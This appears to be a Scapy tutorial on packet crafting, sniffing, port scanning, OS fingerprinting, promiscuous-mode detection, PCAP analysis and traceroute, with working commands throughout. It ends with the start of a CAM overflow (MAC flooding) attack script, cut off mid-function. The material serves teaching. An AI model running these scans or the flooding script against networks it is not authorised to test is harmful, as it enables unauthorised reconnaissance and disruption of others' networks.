0000 00 50 56 FC CE 50 00 0C 29 2B 53 19 08 00 45 00 .PV..P..)+S...E.
0010 00 54 00 00 40 00 40 01 5A 7C C0 A8 19 82 04 02 .T..@.@.Z|......
0020 02 01 08 00 9C 90 5A 61 00 01 E6 DA 70 49 B6 E5 ......Za....pI..
0030 08 00 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13 14 15 ................
0040 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22 23 24 25 .......... !"#$%
0050 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32 33 34 35 &'()*+,-./012345
0060 36 37 67
- Hexdump above can be reimported back into Scapy using import_hexcap() function:
>>> pkt_hex = Ether(import_hexcap())
0000 00 50 56 FC CE 50 00 0C 29 2B 53 19 08 00 45 00 .PV..P..)+S...E.
0010 00 54 00 00 40 00 40 01 5A 7C C0 A8 19 82 04 02 .T..@.@.Z|......
0020 02 01 08 00 9C 90 5A 61 00 01 E6 DA 70 49 B6 E5 ......Za....pI..
0030 08 00 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13 14 15 ................
0040 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22 23 24 25 .......... !"#$%
0050 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32 33 34 35 &'()*+,-./012345
0060 36 37 67
>>> pkt_hex
<Ether dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP version=4L
ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c
src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP type=echo-request code=0
chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
\x1f !"#$%&\'()*+,-./01234567' |>>>>
hex string
You can also convert entire packet into a hex string using str() function:
>>> pkt
<Ether dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP version=4L
ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c
src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP type=echo-request code=0
chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
\x1f !"#$%&\'()*+,-./01234567' |>>>>
>>> pkt_str = str(pkt)
>>> pkt_str
'\x00PV\xfc\xceP\x00\x0c)+S\x19\x08\x00E\x00\x00T\x00\x00@\x00@\x01Z|\xc0\xa8
\x19\x82\x04\x02\x02\x01\x08\x00\x9c\x90Za\x00\x01\xe6\xdapI\xb6\xe5\x08\x00
\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b
\x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'
Base64
Scapy can export base64 encoded python data structure representing a packet using export_object() function.
>>> pkt
<Ether dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP version=4L
ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c
src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP type=echo-request code=0
chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
!"#$%&\'()*+,-./01234567' |>>>>
>>> export_object(pkt)
eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
Output above can be reimported back into Skype using import_object() function:
>>> new_pkt = import_object()
eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
...
>>> new_pkt
<Ether dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP version=4L
ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c
src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP type=echo-request code=0
chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
!"#$%&\'()*+,-./01234567' |>>>>
Sniffing
Sniff()
- Scapy's in-built
sniff()function helps us capture all traffic sniff()hascount,filter,iface,lfilter,prn,timeoutoptions- Can apply BPF filters (Same as TCPDUMP)
>>> sniff(count=4, iface='eth3')
<Sniffed: TCP:0 UDP:0 ICMP:0 Other:4>
Sniffing with Scapy
Scapy sniffer is not designed to be super fast so it can miss packets sometimes. Always use use tcpdump when you can, which is more simpler and efficient.
We can add filtering to capture only packets that are interesting to us. Use standard tcpdump/libpcap syntax:
>>> pkts = sniff(count=1,filter="tcp and host 64.233.167.99 and port 80")
>>> sniff(filter='arp', count=5, iface='vboxnet0')
<Sniffed: TCP:0 UDP:0 ICMP:0 Other:5>
>>>
>>> _.summary()
Ether / ARP who has 192.168.56.101 says 192.168.56.1
Ether / ARP who has 192.168.56.101 says 192.168.56.1
Ether / ARP who has 192.168.56.101 says 192.168.56.1
Ether / ARP who has 192.168.56.101 says 192.168.56.1
Ether / ARP who has 192.168.56.101 says 192.168.56.1
Simple traffic analyzer like tcpdump.
>>> pkts = sniff(count=5,filter="host 64.233.167.99",prn=lambda x:x.summary())
Ether / IP / TCP 192.168.1.100:33168 > 64.233.167.99:www S
Ether / IP / TCP 64.233.167.99:www > 192.168.1.100:33168 SA
Ether / IP / TCP 192.168.1.100:33168 > 64.233.167.99:www A
Ether / IP / TCP 192.168.1.100:33168 > 64.233.167.99:www PA / Raw
Ether / IP / TCP 64.233.167.99:www > 192.168.1.100:33168 A
Scapy can sniff packets offline from pcap files.
>>> pkts = sniff(offline='http_google.pcap')
>>>
>>> pkts.nsummary()
0000 Ether / IP / TCP 172.16.16.128:1606 > 74.125.95.104:http S
0001 Ether / IP / TCP 74.125.95.104:http > 172.16.16.128:1606 SA
0002 Ether / IP / TCP 172.16.16.128:1606 > 74.125.95.104:http A
0003 Ether / IP / TCP 172.16.16.128:1606 > 74.125.95.104:http PA / Raw
0004 Ether / IP / TCP 74.125.95.104:http > 172.16.16.128:1606 A / Padding
>>> sniff(offline='http_google.pcap', lfilter = lambda s: s[TCP].flags == 18, prn = lambda x: x[IP].dst)
172.16.16.128
<Sniffed: TCP:1 UDP:0 ICMP:0 Other:0>
Network Recon
Host Discovery
Two steps to basic network reconnaissance.
- Host Discovery
- Service Discovery (Port Scanning)

Host Discovery
- First step to network recon. Goal is to reduce a large set of IP ranges into a list of active or interesting hosts. (A 10.0.0.0/8 network can accomdate 16777200 hosts)
- Port scanning is loud and also expensive on time and resources. More targets; More chances of being caught by an IDS.
- Stringent narrowing down might lead to missing interesting targets. Liberal narrowing down can result in large set of machines to scan. Strike a balance based on the requirements.
TCP SYN Ping
- Send an empty TCP packet with only SYN bit set
- SYN/ACK or RST in response indicates that a machine is up and running
>>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
192.168.56.101 is alive!
TCP ACK Ping
- Send an empty TCP packet with only ACK bit set
- Unsolicited ACK packets should be responded with RST which reveals a machine
- SYN ping and ACK ping might seem redundant but most of the stateless firewalls won’t filter unsolicited ACK packets so it’s a better approach to use both ping tecnhiques
>>> ans, unans = sr(IP(dst='192.168.56.99-105')/TCP(dport=80, flags='A'))
Begin emission:
Finished to send 7 packets.
......................^C
Received 25 packets, got 1 answers, remaining 6 packets
>>>
>>> ans.summary(lambda(s,r): r.sprintf('{IP: %IP.src% is alive}'))
192.168.56.101 is alive
>>>
UDP Ping
- Send UDP packet to the given ports with or without payload, though protocol specific payload makes the scan more effective
- Choose a port that’s most likely closed (Open UDP ports might recieve empty packets but ignore them)
- ICMP port unreachable signifies that the machine is up
IP Protocol ping
- Send multiple packets with different protocol numbers set in their IP header, append proper protocol headers
- Look for either responses using the same protocol as a probe, or ICMP protocol unreachable, either of the responses will signify a machine is alive
ARP Ping
- ARP Ping is employed when discovering active hosts on the same network/LAN
- Faster and reliable because it operates on Layer 2 by using only ARP
- ARP is the backbone protocol for any Layer 2 communication so always employ ARP ping when discovering hosts on local network
- ARP doesn’t exist in IPv6 standard. For the equivalent, use Neighbor Discovery Protocol techniques instead.
>>> ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.56.0/24"),timeout=2)
Begin emission:
**Finished to send 256 packets.
Received 2 packets, got 2 answers, remaining 254 packets
>>>
>>> ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
08:00:27:7b:2a:a9 192.168.56.100
08:00:27:37:86:85 192.168.56.101
>>>
ICMP Ping
- ICMP scan involves the standard packets sent by the ubiquitous ping program
- Send an ICMP type 8 (echo request) packet to the target IP, a ICMP type 0 (echo reply) indicates that the target is alive
- Unfortunately, many hosts and firewalls now block these packets so a basic ICMP scan is unreliable
- ICMP also supports timestamp request(13), and address mask request(17) which can reveal the availabilty of a machine
>>> ans,unans=sr(IP(dst="192.168.56.99-110")/ICMP())
Begin emission:
Finished to send 12 packets.
Received 170 packets, got 1 answers, remaining 11 packets
>>>
>>> ans.summary( lambda(s,r) : r.sprintf("{IP: %IP.src% is alive}") )
192.168.56.101 is alive
Exercise time - network sweeping
Please solve Exercise 1 - Misc exercises
Service Discovery
TCP Three way handshake

Three-way handshake captured using tcpdump
192.168.56.1.35555 > 192.168.56.102.4444: Flags [S] seq=12345
192.168.56.102.4444 > 192.168.56.1.35555: Flags [S.], seq=9998 ack=12346
192.168.56.1.35555 > 192.168.56.102.4444: Flags [.] seq=12346 ack=9999
A note on tcpdump output:
- A port number is appended to the IP address with an additional dot. 192.168.56.1.35555 is IP 192.168.56.1 port 35555.
- An ACK bit is represented by a . so [S.] is SYN-ACK, [.] is ACK.
Crafting the Three-way Handshake in Scapy
To craft three-way handshake we need to be able to record the response of the server and craft our responses based on server response.
Step 1 - Send the client’s SYN to a listening server (SYN)
- Craft an IP header with the source and destination IP addresses.
- Craft a TCP header where we generate the TCP source port, assign the destination port that the server listens on, set the TCP flags to turn the SYN bit on, and generate the client’s ISN.
ip=IP(src="10.0.0.1", dst="20.0.0.2")
syn_packet = TCP(sport=1500, dport=80, flags="S", seq=100)
Step 2 - Listen for the server’s response (SYN - ACK)
- Save the server’s response. (ideally the response should be syn-ack)
- Extract the server’s TCP sequence number and increment the value by one.
synack_packet = sr1(ip/syn_packet)
my_ack = syn_ack.seq+1
Step 3 - Send an acknowledgement from client for server’s response (ACK)
- IP header has the same source and destination as the intial SYN packet.
- TCP header has the same TCP source and destination ports as syn packet, only ACK bit is set, increment the client’s ISN by one since the SYN packet consumes one sequence number, set the acknowledgement value to the incremented server’s sequence number value.
ack_packet = TCP(sport=1500, dport=80, flags="A", seq=101, ack=my_ack)
send(ip/TCP_ACK)
If everything went right, we have just sucessfully established TCP three-way handshake.
Why RST?
If you have noticed whenever we recieve a packet, our machine automatically responds with an RST packet.
The kernel is not aware of what Scapy is doing behind it’s back(Scapy is userland program). If Scapy sends a SYN, the target replies with a SYN-ACK and your kernel sees it as unsolicited packet, it will reply with an RST.
To prevent this, use local firewall rules (e.g. NetFilter/IPtables for Linux). Scapy does not mind about local firewalls.
iptables -A OUTPUT -p tcp --tcp-flags RST RST -s 192.168.1.1 -j DROP
SYN scan


SYN scan on single target, single port
- We send packets using
sr1function - The response is just a single packet
- We use Scapy’s
sprintfmethod to print interesting fields in the response. (SAflags indicates open ports,RAflags indicates closed ports)
>>> syn_packet = IP(dst='192.168.56.102')/TCP(dport=4444,flags='S')
>>> resp = sr1(syn_packet)
>>> resp.sprintf('%TCP.src% \t %TCP.sport% \t %TCP.flags%')
'192.168.56.102 4444 SA'
SYN scan on single target, multiple ports
- We use
srfunction to send our packets srreturns answered probes and unanswered probes that we assign to two variablesanshas all the answered probes in stimulus/response pairs(a tuple)- We use a simple lambda function to loop over the answered probes and print interesting fields
In the below example, each entry in ans i.e. a stimuli response pair is passed on to a lambda function (stimuli & response as s, r respectively). Inside lambda function, we use sprintf to extract interesting fields.
>>> ans, unans = sr(IP(dst="192.168.56.90")/TCP(dport=(20,24),flags="S"))
>>> ans.summary( lambda(s,r): r.sprintf("%TCP.sport% \t %TCP.flags%") )
'ftp_data RA'
'21 RA
'ssh SA'
'telnet RA'
'24 RA'
SYN scan on multiple targets, multiple ports
make_tableis an advanced feature in scapy that helps you visualize larger and complex scansmake_tabletakes three values - for rows, coloumns and the table data
In the below example, target IPs are on x-axis, target ports on y-axis and the TCP flags in response are tabular data.
>>> ans,unans = sr(IP(dst=["scanme.nmap.org","egadz.metasploit.com"])/TCP(dport=[10,20,30],flags="S"))
>>>
>>> ans.make_table(lambda(s,r): (s.dst, s.dport,r.sprintf("%TCP.flags%")))
45.33.32.156 198.58.109.32
10 RA SA
20 RA SA
30 RA SA
Fin scan

Fin scan on open port - scapy
>>> fin_packet = IP(dst='192.168.56.102')/TCP(dport=4444,flags='F')
>>> resp = sr1(fin_packet)
Begin emission:
Finished to send 1 packets.
^C
Received 0 packets, got 0 answers, remaining 1 packets
Fin scan on closed port - scapy
>>> fin_packet = IP(dst='192.168.56.102')/TCP(dport=6767,flags='F')
>>> resp = sr1(fin_packet)
>>> resp.sprintf('%TCP.flags%')
'RA'
Null scan

Xmas scan

UDP scan

Exercise time - port scanning
Please solve Exercise 2 - Misc exercises
IP ID Scan (nmap idle scan)
In 1998, security researcher Antirez posted to the Bugtraq mailing list an ingenious new port scanning technique. Idle scan, as it has become known, allows for completely blind port scanning. Attackers can actually scan a target without sending a single packet to the target from their own IP address! Instead, a clever side-channel attack allows for the scan to be bounced off a dumb “zombie host”. Intrusion detection system (IDS) reports will finger the innocent zombie as the attacker.
Idle scan can be explained in following steps:
- One way to determine whether a TCP port is open is to send a SYN (session establishment) packet to the port. The target machine will respond with a SYN/ACK (session request acknowledgment) packet if the port is open, and RST (reset) if the port is closed. This is the basis of the previously discussed SYN scan.
- A machine that receives an unsolicited SYN/ACK packet will respond with a RST. An unsolicited RST will be ignored.
- Every IP packet on the Internet has a fragment identification number (IP ID). Since many operating systems simply increment this number for each packet they send, probing for the IP ID can tell an attacker how many packets have been sent since the last probe.
By combining these traits, it is possible to scan a target network while forging your identity so that it looks like an innocent zombie machine did the scanning.

Exercise time - ipidseq & ipidscanner
Please solve Exercise 3 & 4 - Misc exercises
Remote OS Detection
There are two approaches to finger printing remote Operating Systems:
Active OS finger printing
Active finger printing is when attacker sends a series of TCP and UDP packets to the remote host and examines practically every bit in the responses. After the tests the results are compared against the general behaviour of Operating Systems for a match.
Nmap is the most popular active OS detection tool. Nmap probes a target with large number of well crafted packets and the results are compared against Nmap’s database of OS fingerprints (nmap-os-db).
For more details on Nmap’s active OS detection techniques - https://nmap.org/book/man-os-detection.html
Passive OS fingerprinting
Passive OS finger prining is analyzing network traffic to detect what operating system the client/server are running. This possible because of the difference in TCP/IP stack implemention in various operating systems. P0f is a popular passive finger printing tool with large database of finger prints.
For more details on p0f finger printing - http://lcamtuf.coredump.cx/p0f3/
Active OS finger printing
Differences in protocol implementations
RFC 793 says: “ACK (1 bit) – indicates that the Acknowledgment field is significant. All packets after the initial SYN packet sent by the client should have this flag set”.
But, IP stacks are written for different OSs by different people who read the RFCs and then write their interpretation of what the RFC outlines into code. This leads to a difference in how IP stacks are implemeted across OSes.
Linux implementation
Linux kernel 2.4+ accepts and acknowledges a segment in an established session where no TCP flags are set and where the segment has payload No other well known current operating system accepts this same segment.
This behaviour of Linux network stack is complied into the kernel so it isn’t easy to alter it. This makes it a very foolproof technique for remote Linux OS detection.
The Technique:

- Establish a TCP three-way handshake with the target
- All we have to do after handshake is to create a segment with no TCP flags and add some payload and send it
payload="just some data"
data_packet = TCP(sport=1500, dport=80, flags="", seq=102, ack=my_ack) # Notice that we explicitly mentioned to not set any flags
send(ip/data_packet/my_payload)
- If the target is Linux server(2.4+ kernel), you’ll see an ACK bit set in the response
- In case of other Operating Systems, the response will most likely be a RST packet
Passive OS fingerprinting
TTL & Window size analysis

Promiscuous mode detection
You have an attacker sitting in your internal network, listening to all the traffic, you are running against time to find them! What do you do?
Promiscuous mode
- Promiscuous mode allows a network device to intercept and read each network packet that arrives in its entirety.
- Unlike Monitor mode, in promisc mode the listener has to be connected to the network.
- Some tools that use promiscuous mode - Wireshark, Tcpdump, Aircrack-ng, cain and abel, Snort, VirtualBox etc
- Extremely effective because of it’s passive nature.
Enable promiscuous mode
$ sudo ifconfig <iface> promisc
Disable promiscuous mode
$ sudo ifconfig <iface> -promisc
Detecting promisc node - The idea
All the packets recieved by promisc NIC are passed on to the kernel, so the basic idea of detection is to send specially crafted packets that may trick the system kernel to respond to packets that it is not supposed to respond to in normal mode.
Fake ARP request packets, ICMP Ping(echo request) with wrong MAC but right IP address could do the job.
Hardware filter
Normally, NIC of a machine filters and accepts only packets that have destination address set to the NIC’s own hardware address, broadcast address (FF FF FF FF FF FF), and multicast address 1(01 00 5E 00 00 01). Let’s call this a hardware filter, where packets are filtered by NIC based of destination address.
In promiscuous mode, NIC is set to accept every packet that it recieves, like it has no hardware filtering.
- Using the above information it should be easy to find promisc nodes, right?
Just send packet using a destination address that is supposed to be filtered by hardware filter when in normal mode, only if a machine is in promisc mode, it would pass the packet to kernel without hardware filtering and would respond to that packet.
- Let’s send an ARP packet to destination 00:00:00:00:00:01. What happens??
An ARP packet needs Ether header. You only have to set dst field in Ether header (to our selected address) and pdst field in ARP header (to the target IP address), all the other fields are filled in by Scapy.
promisc_test = Ether(dst='00:00:00:00:00:01')/ARP(pdst='192.168.56.101')
If our logic was correct, a promisc machine should reply to this packet but we didn’t get a reply. It could be either that the target is not in promisc mode or there is some more filtering going on.
Software Filter
- Operating system kernels implement a filter, let’s call it software filter.
- Even though a packet passes through hardware filter, kernel is implementing another filter and this mechanism is filtering out some other addresses so we are not getting a response.
Breaking Hardware filter & Software filter
The hardware filter usually blocks packets that are not supposed to arrive to the system kernel.
We need to craft a packet that is:
- Blocked by the hardware filter in normal mode, only passed to kernel in promisc mode.
- Should be able to pass the software filter.
Final test
The following table is a collection of special set of MAC addresses and the machines behaviour when it recieves a packet with one of these addresses as destination in the Ethernet header.
A machine in promisc mode will reply to the below packet (given the pdst matches it's IP)
promisc_test = Ether(dst='FF:FF:FF:FF:FF:FE')/ARP(pdst='192.168.56.107')
If you notice, only a Linux machine in promisc mode responds to the address 01:00:00:00:00:00, this could be used as a simple OS detection technique.
promisc_test = Ether(dst='01:00:00:00:00:00')/ARP(pdst='192.168.56.107')
# Any machine that answers to this is probably a Linux machine in promisc mode

PCAP Analysis
- Scapy has pretty handy functions for handling PCAP files
- Although there are dedicated tools like dpkt, pcapy etc to deal with packet captures (using Python), Scapy is still a go-to tool for PCAP analysis because of it’s dense methods that aid you in number of packet analysis operations
- Although Scapy is all powerful, it’s takes a lot of memory when reading packets so analysing larger packet captures will take toll on your system memory
PCAP operations
Memory matters!
Scapy looks at each packet as a class which takes toll on the system memory, so it is not a right choice for analysing large PCAPs
When investigating large PCAP’s(several Giga Bytes) use light-weight tools like Tshark for initial analysis, when investigation boils down to smaller set of packets, use Scapy.
Reading PCAP
You can read a PCAP file in Scapy using rdpcap function.
>>> rdpcap('port_knock_seq.pcap')
<port_knock_seq.pcap: TCP:6 UDP:0 ICMP:0 Other:0>
>>> pkts = sniff(offline="temp.cap")
Writing pcap
You can write a set of packets into a PCAP file using wrpcap function.
>>> wrpcap("attack.pcap",packets)
Simple tcp-replay tool
- You can write a very simple tcp-replay tools in one line of scapy This piece of code send packets in a PCAP over the network, very handy in some forensic analysis situations
>>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
...........
Sent 11 packets.
Exercise time - packet hunting
Please solve Exercise 5- packet hunting (Misc exercises)
Please solve Exercise 6 (Misc exercises)
Traceroute
- Traceroute is a tool/technique to list all the routers that your packets go through to reach a target.
- The technique is to send series of packets to the target with Time to Live (TTL) set in such a way that each router on the path will have to notify you of the death of the packet.
- The traceroute technique is based on the way the IP protocol is designed. TTL value in IP header is seen as hop limit. Everytime a router recieves a packet to forward, it decrements the TTL by one and forwards the packet. When TTL reaches 0, the router will send a reply to the source machine indicating the packet has died.
- The technique behind various tools is same but the way they implement it slightly differs. Unix systems use UDP datagrams while the Windows tracert program uses ICMP and tcptraceroute uses TCP.
Most traceroute tools tend to send a packet with ceratin TTL value and wait for a reply before sending out the next packet which could slow down the whole process, especially when there is a network note that is unresponsive.
In this example, we are going to do a Standard ICMP Traceroute but we will send all our probes at the same time.
One obvious question, “Where do we stop?” For this exercises we’ll just send packets till TTL 30 and that is a decent number to reach almost any node on Internet.
>>> ans,unans=sr(IP(dst="4.2.2.1",ttl=(1,10))/ICMP())
Once, we receive all probe requests we can obtain results:
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%"))
192.168.1.1
68.88.88.88
68.60.60.60
4.79.43.134
4.79.43.133
4.68.18.62
4.68.123.6
4.2.2.1
4.2.2.1
Similarly, we can use TCP SYN traceroute to obtain similar results:
ans,unans=sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))
And again results would be:
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
192.168.1.1 time-exceeded
68.86.90.162 time-exceeded
4.79.43.134 time-exceeded
4.79.43.133 time-exceeded
4.68.18.126 time-exceeded
4.68.123.38 time-exceeded
4.2.2.1 SA
Scapy includes a built-in traceroute() function to perform same functionality as above. Here is an example of TCP SYN traceroute:
>>> traceroute("4.2.2.1")
Begin emission:
***********************Finished to send 30 packets.
****
Received 27 packets, got 27 answers, remaining 3 packets
4.2.2.1:tcp80
1 192.168.1.1 11
5 4.79.43.134 11
6 4.79.43.133 11
7 4.68.18.62 11
8 4.68.123.6 11
9 4.2.2.1 RA
10 4.2.2.1 RA
...
We can perform a DNS traceroute by specifying a complete packet in l4 parameter of traceroute() function:
>>> ans,unans=traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))
Begin emission:
..*....******...******.***...****Finished to send 30 packets.
*****...***...............................
Received 75 packets, got 28 answers, remaining 2 packets
4.2.2.1:udp53
1 192.168.1.1 11
4 68.86.90.162 11
5 4.79.43.134 11
6 4.79.43.133 11
7 4.68.18.62 11
8 4.68.123.6 11
9 4.2.2.1
...
Similarly, IP Fragment traceroute can be emulated with this command:
>>> res,unans = sr(IP(dst="4.2.2.1", ttl=(5,10), flags="MF")
... /UDP(sport=RandShort( ), dport=53), timeout=125)
Note: I couldn't produce Type 11 Code 1 (Time Exceeded During Reassembly) ICMP error.
Network Attacks
CAM overflow/ MAC flooding attack
The hands-on for this is while solving the "Network Hunt" challenge.
Background
- Content Addressable Memory (CAM) Table Overflow is a Layer 2 attack on a switch
- A switch’s CAM table contains network information such as MAC addresses available on physical switch ports and associated VLAN parameters.
- MAC address flooding attack (CAM table flooding attack) is a type of network attack where an attacker connected to a switch port floods the switch interface with very large number of Ethernet frames with different fake source MAC address.
- CAM Table Overflows occur when an influx of MAC addresses are flooded into the table and the CAM table threshold is reached. This causes the switch to act like a hub, flooding the network with traffic out all ports.
More about CAM over flow: http://hakipedia.com/index.php/CAM_Table_Overflow
- MAC address flooding exploits the memory and hardware limitations in a switch’s CAM table.
- Switchs are able to store numerous amounts of entries in the CAM table, however, once the resources are exhausted, the traffic is flooded out on all ports(or source VLAN), as the CAM table can no longer store MAC addresses, thus is no longer able to locate the MAC destination MAC address within a packet.
- An attacker is able to exploit this limitation by flooding the switch with an influx of (mostly invalid) MAC addresses, until the CAM tables resources are depleted. - When the aforementioned transpires, the switch has no choice but to flood all ports with all incoming traffic. This is due to the fact that it cannot find the switch port number for a corresponding MAC address within the CAM table. By definition, the switch, acts like, and becomes a hub.
Exploitation
- CAM overflow attacks are very trivial and are very easy to lauch.
- Tools like macof(part of dsniff suite) make it even easier to exploit.
- To make the attacks reliable have an IP payload with random source and destination IP addresses.
#-------------------------------------------------------------------------------#
# A script to perform CAM overflow attack on Layer 2 switches #
# Bharath(github.com/0xbharath) #
# #
# CAM Table Overflow is flooding a switche's CAM table #
# with a lot of fake entries to drive the switch into HUB mode. #
# (Send thousands of Ether packets with random MAC addresses in each packet) #
#-------------------------------------------------------------------------------#
#!/usr/bin/env python
from scapy.all import Ether, IP, TCP, RandIP, RandMAC, sendp
'''Filling packet_list with ten thousand random Ethernet packets
CAM overflow attacks need to be super fast.
For that reason it's better to create a packet list before hand.
'''
def generate_packets():
packet_list = [] #initializing packet_list to hold all the packets
for i in xrange(1,10000):
packet = Ether(src = RandMAC(),dst= RandMAC())/IP(src=RandIP(),dst=RandIP())
